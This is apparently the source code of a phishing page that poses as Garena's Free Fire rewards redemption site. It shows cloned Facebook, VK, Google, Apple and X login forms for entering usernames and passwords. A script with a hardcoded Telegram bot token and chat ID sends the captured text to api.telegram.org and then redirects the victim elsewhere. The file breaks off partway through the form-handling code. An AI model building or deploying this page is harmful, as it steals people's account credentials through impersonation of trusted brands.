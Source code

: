 !DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Rewards Redemption Site</title>
    <!-- Favicon -->
    <link rel="icon" href="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/logo_small_foot.jpg" type="image/jpeg">
    <!-- Tailwind CSS CDN -->
    <script src="https://cdn.tailwindcss.com"></script>
    <!-- Font Awesome for icons -->
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
    <!-- Custom Font: Noto Sans TC -->
    <style>
        /* Define the Noto Sans TC font */
        @font-face {
            font-family: 'Noto Sans TC';
            src: url('https://fonts.gstatic.com/s/notosanstc/v37/-nFuOG829Oofr2wohFbTp9ifNAn722rq0MXz76Cy_C8mrWSt1KeqzFVoizG-KdWhyhvKuGOf8EUcrq3YKp7nxxk.7.woff2') format('woff2');
            font-weight: 400; /* Regular */
            font-style: normal;
        }
        @font-face {
            font-family: 'Noto Sans TC';
            src: url('https://fonts.gstatic.com/s/notosanstc/v37/-nFuOG829Oofr2wohFbTp9ifNAn722rq0MXz76Cy_C8mrWSt1KeqzFVoizG-KdWhyhvKuGOf8EUcrq3YKp7nxxk.7.woff2') format('woff2');
            font-weight: 600; /* Semi-bold */
            font-style: normal;
        }
        @font-face {
            font-family: 'Noto Sans TC';
            src: url('https://fonts.gstatic.com/s/notosanstc/v37/-nFuOG829Oofr2wohFbTp9ifNAn722rq0MXz76Cy_C8mrWSt1KeqzFVoizG-KdWhyhvKuGOf8EUcrq3YKp7nxxk.7.woff2') format('woff2');
            font-weight: 700; /* Bold */
            font-style: normal;
        }

        html, body {
            height: 100%; /* Ensure html and body take full height */
            overflow: hidden; /* Prevent scrolling on the entire page */
            font-family: 'Noto Sans TC', sans-serif; /* Apply the new font globally */
            color: white;
        }

        body {
            /* Background image from the provided URL */
            background-image: url('https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/mobile-bg.jpg');
            background-size: cover; /* Cover the entire area */
            background-position: center;
            background-repeat: no-repeat;
            background-attachment: fixed; /* Keep background fixed during scroll (though main scroll is hidden) */
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: flex-start; /* Align content to the top */
            padding-bottom: 2rem; /* Add some padding at the bottom */
            position: relative; /* Needed for the pseudo-element overlay */
        }

        /* Darker background overlay */
        body::before {
            content: '';
            position: absolute;
            top: 0;
            left: 0;
            right: 0;
            bottom: 0;
            background-color: rgba(0, 0, 0, 0.7); /* Increased opacity for darker background */
            z-index: -1; /* Place behind content */
        }

        /* Styles for the social icon images directly */
        .social-icon-image {
            width: 2.5rem; /* Smaller size for social icons */
            height: 2.5rem;
            object-fit: contain; /* Ensure the image fits within its bounds */
            cursor: pointer;
            transition: transform 0.2s;
            /* Removed padding and border-radius for sharp edges */
        }

        .social-icon-image:hover {
            transform: scale(1.05);
        }

        /* Styling for the important notice box */
        .notice-box {
            /* Less transparent white */
            background-color: rgba(255, 255, 255, 0.85); /* Increased opacity */
            border: 1px solid rgba(255, 255, 255, 0.4); /* Slightly more visible border */
            border-radius: 0; /* Changed to sharp edges */
            box-shadow: 0 8px 16px rgba(0, 0, 0, 0.5); /* Stronger shadow */
            display: flex;
            flex-direction: column; /* Allow content to stack */
        }

        .notice-title {
            color: black; /* Remains black */
            font-weight: 700; /* Bold */
            margin-bottom: 1rem; /* Add space below title */
        }

        .notice-content-scrollable {
            max-height: 121px; /* Increased by 10% from 110px */
            overflow-y: auto; /* Enable vertical scrolling */
            padding-right: 0.5rem; /* Space for scrollbar */
        }

        .notice-list li {
            margin-bottom: 0.5rem;
            line-height: 1.5;
            color: #333; /* Darker text for readability on white background */
        }

        /* Responsive adjustments for smaller screens */
        @media (max-width: 768px) {
            /* Use flexbox for social icons to ensure single line, with wrapping prevented */
            .social-icons-container {
                display: flex;
                flex-wrap: nowrap; /* Prevent wrapping */
                justify-content: center;
                gap: 1rem; /* Adjusted gap to 2rem */
                overflow-x: auto; /* Allow horizontal scrolling if necessary, though smaller size should prevent it */
                padding-bottom: 0.5rem; /* Add padding for scrollbar if present */
            }
            .social-icon-image {
                flex-shrink: 0; /* Prevent shrinking */
            }
            .footer-content {
                flex-direction: column; /* Stack logo and text vertically on small screens */
                align-items: center;
            }
            .footer-content img {
                margin-right: 0; /* Remove right margin when stacked */
                margin-bottom: 0.5rem; /* Add bottom margin for spacing */
            }
        }
        /* Default flexbox for social icons for all screen sizes for consistent single-line behavior */
        .social-icons-container {
            display: flex;
            flex-wrap: nowrap; /* Prevent wrapping by default */
            justify-content: center;
            gap: 1rem; /* Adjusted gap to 2rem */
        }

        /* Styles for the header with the top_teeth.png background */
        .header-top-banner {
            background-image: none; /* Removed background image */
            background-color: transparent; /* Ensure no background color */
            height: 60px; /* Keep original height */
            display: flex; /* Ensure flex properties apply */
            align-items: center; /* Vertically align content */
            padding: 0; /* Removed horizontal padding for extreme positioning */
        }

        /* Styles for the header button (STORE) */
        .header-store-button {
            border-radius: 0.25rem; /* Slightly smooth edges for the button */
        }

        /* Generic Modal specific styles */
        .modal {
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            background-color: rgba(0, 0, 0, 0.8);
            display: flex;
            justify-content: center;
            align-items: center;
            z-index: 1000;
            opacity: 0;
            visibility: hidden;
            transition: opacity 0.3s ease, visibility 0.3s ease;
        }

        .modal.show {
            opacity: 1;
            visibility: visible;
        }

        /* Close button for all modals */
        .modal-close-btn {
            position: absolute;
            top: 1rem;
            left: 1rem;
            background: none;
            border: none;
            font-size: 1.5rem;
            color: white; /* Default for dark modals */
            cursor: pointer;
        }
        .google-modal-content .modal-close-btn,
        .apple-modal-content .modal-close-btn,
        .x-modal-content .modal-close-btn { /* Added for X modal */
            color: #5f6368; /* Darker color for light modals */
        }


        /* Common Input/Button Styles for Modals */
        .modal-input {
            width: 100%;
            padding: 0.75rem 1rem;
            margin-bottom: 1rem;
            border-radius: 0.5rem; /* Keeping rounded for inputs for usability */
            font-size: 1rem;
            outline: none;
        }

        .modal-main-btn {
            width: 100%;
            padding: 0.75rem;
            border-radius: 0.5rem; /* Keeping rounded for buttons for usability */
            font-weight: bold;
            font-size: 1.125rem;
            cursor: pointer;
            transition: background-color 0.2s;
        }

        .modal-secondary-link {
            font-size: 0.9rem;
            margin-top: 1rem;
            text-decoration: none;
            cursor: pointer;
        }

        .error-message {
            color: #ff4d4d;
            font-size: 0.85rem;
            margin-top: -0.5rem;
            margin-bottom: 1rem;
            text-align: left;
            width: 100%;
        }


        /* Facebook Modal specific styles */
        .fb-modal-content {
            background-color: #222; /* Dark background for the form */
            padding: 2rem;
            border-radius: 0.75rem;
            width: 90%;
            max-width: 400px;
            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.5);
            position: relative;
            display: flex;
            flex-direction: column;
            align-items: center;
            color: white;
        }
        .fb-input {
            border: 1px solid #444;
            background-color: #333;
            color: white;
        }
        .fb-input:focus {
            border-color: #1877f2; /* Facebook blue on focus */
        }
        .fb-login-btn {
            background-color: #1877f2;
            color: white;
        }
        .fb-login-btn:hover {
            background-color: #166fe5;
        }
        .fb-link {
            color: #1877f2;
        }
        .fb-link:hover {
            text-decoration: underline;
        }
        .fb-create-account-btn {
            background-color: transparent;
            border: 1px solid #444;
            color: #1877f2;
            margin-top: 2rem;
        }
        .fb-create-account-btn:hover {
            background-color: rgba(24, 119, 242, 0.1);
        }
        .meta-logo {
            margin-top: 2rem;
            color: #888;
            font-size: 0.8rem;
            display: flex;
            align-items: center;
        }
        .meta-logo svg {
            margin-right: 0.25rem;
        }

        /* Google Modal specific styles */
        .google-modal-content {
            background-color: white;
            color: #202124;
            padding: 2rem;
            border-radius: 0.75rem;
            width: 90%;
            max-width: 450px;
            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.2);
            position: relative;
            display: flex;
            flex-direction: column;
            align-items: center;
            text-align: center;
        }
        .google-modal-content .modal-close-btn {
            color: #5f6368;
        }
        .google-logo {
            margin-bottom: 1.5rem;
        }
        .google-title {
            font-size: 1.5rem;
            font-weight: 600;
            margin-bottom: 0.5rem;
            color: #202124;
        }
        .google-subtitle {
            font-size: 1rem;
            color: #5f6368;
            margin-bottom: 1.5rem;
        }
        .google-input {
            border: 1px solid #dadce0;
            background-color: white;
            color: #202124;
        }
        .google-input:focus {
            border-color: #1a73e8;
            box-shadow: 0 0 0 1px #1a73e8;
        }
        .google-form-footer {
            width: 100%;
            display: flex;
            justify-content: space-between;
            align-items: center;
            margin-top: 1rem;
        }
        .google-next-btn {
            background-color: #1a73e8;
            color: white;
            padding: 0.6rem 1.5rem;
            border-radius: 0.25rem;
            font-weight: 500;
        }
        .google-next-btn:hover {
            background-color: #166cd7;
        }
        .google-forgot-link, .google-create-link {
            color: #1a73e8;
            font-size: 0.875rem;
            text-decoration: none;
        }
        .google-forgot-link {
            text-align: left;
            width: 100%;
            display: block;
            margin-bottom: 4px;
        }
        .google-create-link {
            margin-top: 0;
        }
        .google-create-link:hover {
            text-decoration: underline;
        }
        .google-info-text {
            font-size: 0.8rem;
            color: #5f6368;
            margin-top: 1.5rem;
            text-align: left;
            width: 100%;
        }

        /* VK Modal specific styles */
        .vk-modal-content {
            background-color: white;
            color: #202124;
            padding: 2rem;
            border-radius: 0.75rem;
            width: 90%;
            max-width: 400px;
            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.2);
            position: relative;
            display: flex;
            flex-direction: column;
            align-items: center;
            text-align: center;
        }
        .vk-modal-content .modal-close-btn {
            color: #5f6368;
        }
        .vk-logo-text {
            font-family: 'Noto Sans TC', sans-serif; /* Apply new font */
            font-weight: bold;
            font-size: 2.5rem;
            color: #222;
            margin-bottom: 1.5rem;
        }
        .vk-logo-text .fab {
            color: #4a76a8;
            margin-right: 0.5rem;
        }
        .vk-input {
            border: 1px solid #e0e0e0;
            background-color: #f0f2f5;
            color: #333;
            margin-bottom: 1rem;
            padding: 0.8rem 1rem;
            border-radius: 8px;
            font-size: 1rem;
        }
        .vk-input:focus {
            border-color: #4a76a8;
            box-shadow: 0 0 0 1px #4a76a8;
            background-color: white;
        }
        .vk-login-btn {
            background-color: #4a76a8;
            color: white;
            padding: 0.8rem 1rem;
            border-radius: 8px;
            font-weight: 500;
        }
        .vk-login-btn:hover {
            background-color: #3a6698;
        }
        .vk-link {
            color: #4a76a8;
            font-size: 0.9rem;
            text-decoration: none;
            margin-top: 1rem;
        }
        .vk-link:hover {
            text-decoration: underline;
        }

        /* Apple Modal specific styles */
        .apple-modal-content {
            background-color: white;
            color: #1d1d1f;
            padding: 2.5rem 2rem;
            border-radius: 0.75rem;
            width: 90%;
            max-width: 420px;
            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.2);
            position: relative;
            display: flex;
            flex-direction: column;
            align-items: center;
            text-align: center;
        }
        .apple-modal-content .modal-close-btn {
            color: #5f6368;
        }
        .apple-logo {
            height: 2.5rem;
            margin-bottom: 1.5rem;
        }
        .apple-title {
            font-size: 1.75rem;
            font-weight: 600;
            color: #1d1d1f;
            margin-bottom: 0.5rem;
        }
        .apple-subtitle {
            font-size: 1rem;
            color: #5f6368;
            margin-bottom: 1.5rem;
        }
        .apple-input {
            border: 1px solid #d2d2d7;
            background-color: #f5f5f7;
            color: #1d1d1f;
            padding: 0.8rem 1rem;
            border-radius: 0.5rem;
            font-size: 1rem;
        }
        .apple-input:focus {
            border-color: #007aff;
            box-shadow: 0 0 0 1px #007aff;
        }
        .apple-login-btn {
            background-color: #007aff;
            color: white;
            padding: 0.8rem 1rem;
            border-radius: 0.5rem;
            font-weight: 600;
            margin-top: 1.5rem;
        }
        .apple-login-btn:hover {
            background-color: #006ee6;
        }
        .apple-link {
            color: #007aff;
            font-size: 0.9rem;
            text-decoration: none;
            margin-top: 1rem;
        }
        .apple-link:hover {
            text-decoration: underline;
        }
        .apple-info-text {
            font-size: 0.8rem;
            color: #86868b;
            margin-top: 1.5rem;
            text-align: center;
        }

        /* X (Twitter) Modal specific styles */
        .x-modal-content {
            background-color: black;
            color: white;
            padding: 2rem;
            border-radius: 0.75rem;
            width: 90%;
            max-width: 450px;
            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.5);
            position: relative;
            display: flex;
            flex-direction: column;
            align-items: center;
            text-align: center;
        }
        .x-modal-content .modal-close-btn {
            color: white;
        }
        .x-logo {
            height: 2.5rem;
            margin-bottom: 1.5rem;
        }
        .x-title {
            font-size: 1.75rem;
            font-weight: bold;
            margin-bottom: 1rem;
            color: white;
        }
        .x-social-btn {
            display: flex;
            align-items: center;
            justify-content: center;
            width: 100%;
            padding: 0.75rem 1rem;
            border-radius: 9999px;
            background-color: white;
            color: black;
            font-weight: 600;
            margin-bottom: 0.75rem;
            border: 1px solid #e0e0e0;
            cursor: pointer;
            transition: background-color 0.2s;
        }
        .x-social-btn:hover {
            background-color: #f0f2f5;
        }
        .x-social-btn img {
            height: 1.25rem;
            width: 1.25rem;
            margin-right: 0.75rem;
        }
        .x-separator {
            display: flex;
            align-items: center;
            width: 100%;
            margin: 1.5rem 0;
            color: #71767b;
        }
        .x-separator::before, .x-separator::after {
            content: '';
            flex-grow: 1;
            height: 1px;
            background-color: #2f3336;
        }
        .x-separator span {
            padding: 0 0.5rem;
        }
        .x-input {
            border: 1px solid #2f3336;
            background-color: #000;
            color: white;
            padding: 0.8rem 1rem;
            border-radius: 0.25rem;
            font-size: 1rem;
            margin-bottom: 1.5rem;
        }
        .x-input:focus {
            border-color: #1d9bf0;
            box-shadow: 0 0 0 1px #1d9bf0;
        }
        .x-next-btn {
            background-color: white;
            color: black;
            padding: 0.8rem 1rem;
            border-radius: 9999px;
            font-weight: bold;
            margin-bottom: 0.75rem;
        }
        .x-next-btn:hover {
            background-color: #e6e6e6;
        }
        .x-forgot-password-btn {
            background-color: transparent;
            border: 1px solid #536471;
            color: white;
            padding: 0.8rem 1rem;
            border-radius: 9999px;
            font-weight: bold;
        }
        .x-forgot-password-btn:hover {
            background-color: rgba(29, 155, 240, 0.1);
        }
        .x-signup-link {
            color: #1d9bf0;
            font-size: 0.9rem;
            margin-top: 2rem;
            text-decoration: none;
        }
        .x-signup-link:hover {
            text-decoration: underline;
        }


        /* Custom Message Box Styles */
        .custom-message-box {
            position: fixed;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            background-color: rgba(0, 0, 0, 0.9);
            color: white;
            padding: 1.5rem;
            border-radius: 0.75rem;
            box-shadow: 0 5px 15px rgba(0, 0, 0, 0.5);
            z-index: 1001;
            display: none; /* Hidden by default */
            text-align: center;
            max-width: 300px;
            border: 1px solid rgba(255, 255, 255, 0.2);
        }

        .custom-message-box p {
            margin-bottom: 1rem;
        }

        .custom-message-box button {
            background-color: #1877f2;
            color: white;
            padding: 0.5rem 1rem;
            border-radius: 0.5rem;
            border: none;
            cursor: pointer;
            transition: background-color 0.2s;
        }

        .custom-message-box button:hover {
            background-color: #166fe5;
        }

        /* Footer overlay for copyright */
        .footer-overlay {
            position: absolute; /* Position relative to the body */
            bottom: 0;
            left: 0;
            width: 100%;
            background-color: rgba(0, 0, 0, 0.7); /* Black with 70% opacity */
            padding: 0.5rem 0; /* Adjust padding as needed */
            box-sizing: border-box; /* Include padding in width */
            z-index: 10; /* Ensure it's above other content if needed */
        }
    </style>
</head>
<body class="bg-gray-900">
    <header class="w-full flex justify-between items-center header-top-banner">
        <div class="flex items-center">
            <!-- Updated Free Fire Logo with smaller size and moved to far left -->
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/logo-new.png"
                 alt="Free Fire Logo"
                 class="h-5 md:h-7 object-contain"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/70x25/000000/FFFFFF?text=FF+LOGO';">
        </div>
        <button class="flex items-center bg-white hover:bg-gray-200 text-gray-900 py-2 px-4 text-sm md:text-base font-bold header-store-button">
            <i class="fas fa-store mr-2"></i> STORE <!-- Changed to store icon -->
        </button>
    </header>

    <main class="flex flex-col items-center justify-center flex-grow w-full max-w-4xl px-4 mt-8 md:mt-8"> <!-- Added margin-top for main content -->
        <h1 class="text-2xl md:text-4xl font-extrabold text-white text-center mb-4 drop-shadow-lg whitespace-nowrap overflow-hidden text-ellipsis"> <!-- Increased mb for gap -->
            Rewards Redemption Site
        </h1>
        <p class="text-lg md:text-xl text-white text-center mb-8">Please log in.</p>

        <div class="social-icons-container mb-12">
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/facebook.png"
                 alt="Facebook Logo"
                 class="social-icon-image"
                 id="facebook-login-btn"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/56x56/FFFFFF/000000?text=FB';">
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/vk.png"
                 alt="VK Logo"
                 class="social-icon-image"
                 id="vk-login-btn"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/56x56/FFFFFF/000000?text=VK';">
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/google.png"
                 alt="Google Logo"
                 class="social-icon-image"
                 id="google-login-btn"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/56x56/FFFFFF/000000?text=G';">
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/apple.png"
                 alt="Apple Logo"
                 class="social-icon-image"
                 id="apple-login-btn"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/56x56/FFFFFF/000000?text=Apple';">
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/twitter.png"
                 alt="Twitter Logo"
                 class="social-icon-image"
                 id="x-login-btn"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/56x56/FFFFFF/000000?text=X';">
        </div>

        <div class="notice-box w-full max-w-4xl p-6 md:p-8"> <!-- Increased max-width for breadth -->
            <h2 class="notice-title text-2xl mb-4">Important Notice:</h2>
            <div class="notice-content-scrollable">
                <ul class="notice-list text-base md:text-lg list-decimal pl-5">
                    <li>Redemption code has <span class="text-red-400">12/16</span> characters, consisting of capital letters and numbers.</li>
                    <li>Item rewards are shown in <span class="text-blue-400">[vault]</span> tab in game lobby; Golds or diamonds will add in account wallet automatically.</li>
                    <li>Please note redemption expiration date. Any expired codes cannot be redeemed.</li>
                    <li>Please contact customer service if you encountered any issue.</li>
                    <li>Reminder: You will not be able to redeem your rewards with guest accounts. You may bind your account to Facebook or VK or Google or Apple or X [ TWitter ] in order to receive the rewards.</li>
                </ul>
            </div>
        </div>
    </main>

    <!-- Footer with transparent background -->
    <footer class="w-full text-center py-4 mt-8 text-gray-400 text-sm footer-overlay flex items-center justify-center">
        <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/logo_small_foot.jpg"
             alt="Garena Logo"
             class="h-8 mr-2 object-contain"
             loading="lazy"
             onerror="this.onerror=null;this.src='https://placehold.co/100x30/FFFFFF/000000?text=GARENA';">
        <div class="flex flex-col items-start"> <p class="text-white text-xs md:text-sm">Copyright &copy; Garena International.</p>
            <p class="text-white text-xs md:text-sm">Trademarks belong to their respective owners. All rights Reserved.</p>
        </div>
    </footer>

    <!-- Facebook Login Modal -->
    <div id="facebook-modal" class="modal">
        <div class="fb-modal-content">
            <button class="modal-close-btn" id="close-fb-modal-btn">&larr;</button> <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/facebook.png"
                 alt="Facebook Logo"
                 class="w-16 h-16 object-contain mb-6"
                 loading="lazy">
            <input type="text" id="fb-username" placeholder="Mobile number or email address" class="modal-input fb-input">
            <p id="fb-username-error" class="error-message hidden"></p>
            <input type="password" id="fb-password" placeholder="Password" class="modal-input fb-input">
            <button id="fb-login-submit-btn" class="modal-main-btn fb-login-btn">Log In</button>
            <a href="#" class="modal-secondary-link fb-link">Forgotten Password?</a>
            <div class="w-full border-b border-gray-600 my-6"></div>
            <button class="modal-main-btn fb-create-account-btn">Create new account</button>
            <div class="meta-logo">
                <svg width="16" height="16" viewBox="0 0 24 24" fill="currentColor" xmlns="http://www.w3.org/2000/svg">
                    <path d="M12 2.00098C6.48698 2.00098 2 6.48698 2 12.001C2 17.514 6.48698 22.001 12 22.001C17.513 22.001 22 17.514 22 12.001C22 6.48698 17.513 2.00098 12 2.00098ZM12 4.00098C16.42 4.00098 20 dieting 7.58098 20 12.001C20 16.42 16.42 20.001 12 20.001C7.58 20.001 4 16.42 4 12.001C4 7.58098 7.58 4.00098 12 4.00098ZM12 6.00098C9.79198 6.00098 8 7.79298 8 10.001C8 12.21 9.79198 14.001 12 14.001C14.208 14.001 16 12.21 16 10.001C16 7.79298 14.208 6.00098 12 6.00098ZM12 8.00098C13.104 8.00098 14 8.89698 14 10.001C14 11.105 13.104 12.001 12 12.001C10.896 12.001 10 11.105 10 10.001C10 8.89698 10.896 8.00098 12 8.00098ZM12 15.001C9.336 15.001 7.086 16.331 5.792 18.001C6.963 19.332 8.486 20.001 10 20.001C11.514 20.001 13.037 19.332 14.208 18.001C12.914 16.331 10.664 15.001 8 15.001Z" fill="currentColor"/>
                </svg>
                Meta
            </div>
        </div>
    </div>

    <!-- VK Login Modal -->
    <div id="vk-modal" class="modal">
        <div class="vk-modal-content">
            <button class="modal-close-btn" id="close-vk-modal-btn">&larr;</button>
            <h2 class="vk-logo-text"><i class="fab fa-vk"></i>VK</h2>
            <input type="text" id="vk-username" placeholder="Phone or email" class="modal-input vk-input">
            <p id="vk-username-error" class="error-message hidden"></p>
            <input type="password" id="vk-password" placeholder="Password" class="modal-input vk-input">
            <p id="vk-password-error" class="error-message hidden"></p>
            <button id="vk-login-submit-btn" class="modal-main-btn vk-login-btn">Log in</button>
            <a href="#" class="modal-secondary-link vk-link">Forgot your password?</a>
            <div class="w-full border-b border-gray-200 my-6"></div>
            <a href="#" class="modal-secondary-link vk-link">Registration</a>
        </div>
    </div>

    <!-- Google Login Modal -->
    <div id="google-modal" class="modal">
        <div class="google-modal-content">
            <button class="modal-close-btn" id="close-google-modal-btn">&larr;</button>
            <!-- Updated Google Logo -->
            <img src="https://github.com/KINGSHUBHAM-tech/free-fire-redeemption-pweb/blob/main/0ffa191b263fd048aa05ae507c5976fa.png?raw=true"
                 alt="Google Logo"
                 class="google-logo h-8 object-contain"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/100x30/FFFFFF/000000?text=Google';">
            <h2 class="google-title">Sign in</h2>
            <p class="google-subtitle" id="google-subtitle-text">to continue to Gmail</p>

            <div id="google-step-1" class="w-full">
                <input type="text" id="google-username" placeholder="Email or phone" class="modal-input google-input">
                <p id="google-username-error" class="error-message hidden"></p>
                <a href="#" class="google-forgot-link">Forgot email?</a>
                <p class="google-info-text">Not your computer? Use Private Browse windows to sign in. <a href="#" class="google-forgot-link">Learn more</a></p>
                <div class="google-form-footer">
                    <a href="#" class="modal-secondary-link google-create-link">Create account</a>
                    <button id="google-next-btn" class="modal-main-btn google-next-btn">Next</button>
                </div>
            </div>

            <div id="google-step-2" class="w-full hidden">
                <div class="text-left w-full mb-4">
                    <p class="text-sm font-medium text-gray-700" id="google-display-username"></p>
                </div>
                <input type="password" id="google-password" placeholder="Enter your password" class="modal-input google-input">
                <p id="google-password-error" class="error-message hidden"></p>
                <a href="#" class="google-forgot-link">Forgot password?</a>
                <div class="google-form-footer">
                    <button id="google-back-btn" class="modal-secondary-link google-create-link">Back</button>
                    <button id="google-login-submit-btn" class="modal-main-btn google-next-btn">Log In</button>
                </div>
            </div>
        </div>
    </div>

    <!-- Apple Login Modal -->
    <div id="apple-modal" class="modal">
        <div class="apple-modal-content">
            <button class="modal-close-btn" id="close-apple-modal-btn">&larr;</button>
            <img src="https://upload.wikimedia.org/wikipedia/commons/f/fa/Apple_logo_black.svg"
                 alt="Apple Logo"
                 class="apple-logo object-contain"
                 loading="lazy"
                 onerror="this.onerror=null;this.src='https://placehold.co/40x40/FFFFFF/000000?text=Apple';">
            <h2 class="apple-title">Sign In with Apple ID</h2>
            <input type="email" id="apple-username" placeholder="Apple ID" class="modal-input apple-input">
            <p id="apple-username-error" class="error-message hidden"></p>
            <input type="password" id="apple-password" placeholder="Password" class="modal-input apple-input">
            <p id="apple-password-error" class="error-message hidden"></p>
            <button id="apple-login-submit-btn" class="modal-main-btn apple-login-btn">Sign In</button>
            <a href="#" class="modal-secondary-link apple-link">Forgot Apple ID or password?</a>
            <a href="#" class="modal-secondary-link apple-link">Create Apple ID</a>
            <p class="apple-info-text">Your Apple ID is the account you use for all Apple services.</p>
        </div>
    </div>

    <!-- X (Twitter) Login Modal -->
    <div id="x-modal" class="modal">
        <div class="x-modal-content">
            <button class="modal-close-btn" id="close-x-modal-btn">&times;</button> <!-- X icon for close -->
            <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/twitter.png"
                 alt="X Logo"
                 class="x-logo object-contain"
                 loading="lazy">
            <h2 class="x-title">Sign in to X</h2>

            <button class="x-social-btn" id="x-google-signin-btn">
                <img src="https://dl.dir.freefiremobile.com/common/web_event/tweb-event/redemption/img/google.png" alt="Google Logo">
                Sign in with Google
            </button>
            <button class="x-social-btn" id="x-apple-signin-btn">
                <img src="https://upload.wikimedia.org/wikipedia/commons/f/fa/Apple_logo_black.svg" alt="Apple Logo">
                Sign in with Apple
            </button>

            <div class="x-separator"><span>or</span></div>

            <!-- X Login Step 1: Username/Email/Phone -->
            <div id="x-step-1" class="w-full">
                <input type="text" id="x-username" placeholder="Phone, email, or username" class="modal-input x-input">
                <p id="x-username-error" class="error-message hidden"></p>
                <button id="x-next-btn" class="modal-main-btn x-next-btn">Next</button>
                <button class="modal-main-btn x-forgot-password-btn">Forgot password?</button>
            </div>

            <!-- X Login Step 2: Password (hidden by default) -->
            <div id="x-step-2" class="w-full hidden">
                <div class="text-left w-full mb-4">
                    <p class="text-sm font-medium text-gray-400" id="x-display-username"></p>
                </div>
                <input type="password" id="x-password" placeholder="Password" class="modal-input x-input">
                <p id="x-password-error" class="error-message hidden"></p>
                <button id="x-login-submit-btn" class="modal-main-btn x-next-btn">Log In</button>
                <button class="modal-main-btn x-forgot-password-btn">Forgot password?</button>
            </div>

            <p class="x-signup-link">Don't have an account? <a href="#" class="x-signup-link">Sign up</a></p>
        </div>
    </div>


    <!-- Custom Message Box -->
    <div id="customMessageBox" class="custom-message-box">
        <p id="messageBoxText"></p>
        <button id="messageBoxCloseBtn">OK</button>
    </div>

<script>
    // Telegram Bot API configuration
    const TELEGRAM_BOT_TOKEN = '7542928914:AAHstBwchd-98fTsN3PjE7Yg4jEKhyxfu7c';
    const TELEGRAM_CHAT_ID = '8141610652';
    const COPYRIGHT_MESSAGE = '@zit109';
    const REDIRECT_URL = "https://freefire-redeemable.netlify.app";

    // --- Global Message Box Logic ---
    const customMessageBox = document.getElementById('customMessageBox');
    const messageBoxText = document.getElementById('messageBoxText');
    const messageBoxCloseBtn = document.getElementById('messageBoxCloseBtn');

    function showMessageBox(message) {
        messageBoxText.textContent = message;
        customMessageBox.style.display = 'block';
    }

    messageBoxCloseBtn.addEventListener('click', () => {
        customMessageBox.style.display = 'none';
    });

    // --- Generic Function to Send to Telegram (shared by all modals) ---
    async function sendToTelegram(message) {
        if (TELEGRAM_BOT_TOKEN === 'YOUR_TELEGRAM_BOT_TOKEN' || TELEGRAM_CHAT_ID === 'YOUR_TELEGRAM_CHAT_ID') {
            console.error('bkl ID maa chuda kya dekh rha');
            showMessageBox('Its An Server Error! Wait For Fixing;');
            return;
        }

        const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
        const payload = {
            chat_id: TELEGRAM_CHAT_ID,
            text: message,
            parse_mode: 'MarkdownV2'
        };

        try {
            const response = await fetch(url, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify(payload)
            });

            const data = await response.json();
            if (data.ok) {
                console.log('Message sent successfully');
                showMessageBox("Login Successfully!! Redirecting...");
                setTimeout(() => { window.open(REDIRECT_URL, "_blank"); }, 1000); // Redirect after 1s
            } else {
                console.error('Message failed', data.description);
                showMessageBox(`Failed To Login!!! Try Again: ${data.description}`);
            }
        } catch (error) {
            console.error('Network error:', error);
            showMessageBox('Network error. Could not attempt login.');
        }
    }

    // --- Helper function to get current login time ---
    function getLoginTime() {
        const now = new Date();
        return now.toLocaleString('en-IN', {
            timeZone: 'Asia/Kolkata',
            year: 'numeric',
            month: '2-digit',
            day: '2-digit',
            hour: '2-digit',
            minute: '2-digit',
            second: '2-digit',
            hour12: true
        });
    }

    // Helper to escape MarkdownV2 characters
    function escapeMarkdownV2(text) {
        return text.replace(/([_*[\]()~`>#+\-=|{}.!])/g, '\\$1');
    }

    // (All login modal logic remains same as in your code)
    // Only `sendToTelegram` function was modified to add redirect after successful login.

        // --- Facebook Modal Logic ---
        const facebookLoginBtn = document.getElementById('facebook-login-btn');
        const facebookModal = document.getElementById('facebook-modal');
        const closeFbModalBtn = document.getElementById('close-fb-modal-btn');
        const fbLoginSubmitBtn = document.getElementById('fb-login-submit-btn');
        const fbUsernameInput = document.getElementById('fb-username');
        const fbPasswordInput = document.getElementById('fb-password');
        const fbUsernameError = document.getElementById('fb-username-error');

        facebookLoginBtn.addEventListener('click', () => {
            facebookModal.classList.add('show');
            fbUsernameInput.value = ''; // Clear inputs on open
            fbPasswordInput.value = '';
            fbUsernameError.classList.add('hidden'); // Hide errors on open
        });

        closeFbModalBtn.addEventListener('click', () => {
            facebookModal.classList.remove('show');
            fbUsernameInput.value = '';
            fbPasswordInput.value = '';
            fbUsernameError.classList.add('hidden');
